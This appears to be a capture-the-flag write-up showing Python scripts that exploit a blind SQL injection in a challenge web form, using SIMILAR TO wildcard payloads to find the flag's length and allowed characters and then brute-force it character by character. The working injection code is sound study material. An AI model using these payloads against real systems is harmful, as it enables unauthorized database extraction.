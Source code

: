 ## Solution

Firstly, we need a flag length

```py
data = {
        "username": "emperor"
    }

def get_flag_length(URL):
    flags_length = []
    for i in range(1, 100):
        payload = "' OR NAME SIMILAR TO '" + ("_" * i)
        data["username"] = payload
        response = requests.post(URL, data=data)
        if "We found a penguin" in response.text:
            print(f"flag length: {i}")
            flags_length.append(i)
    return flags_length
```

Then we need a list of allowed characters

```py
def get_allowed_characters(URL):
    allowed = ""
    for char in string.punctuation + string.whitespace:
        data["username"] = char
        response = requests.post(URL, data=data)
        if "no character for u uwu" not in response.text:
            print(f"allowed character: {ord(char)}")
            allowed += char
    return allowed
```

```
["'", "_", "{", "}"]
```

Now we form a payload

```
OR NAME SIMILAR TO 'lactf____
```

The underscore ```_``` represents for a single character. Bruteforce every single characters till we have flag.

```py
ALPHABET = string.ascii_letters + string.digits + " " + allowed_characters

flag = "lactf{"
while "}" not in flag:
    for char in ALPHABET:
        print(char)
        payload = flag + char + ("_" * (LENGTH - len(flag) - 1))
        data["username"] = f"' OR NAME SIMILAR TO '{payload}"
        response = requests.post(URL, data=data)
        if "We found a penguin" in response.text:
            flag += char
            print(flag)
            break
```
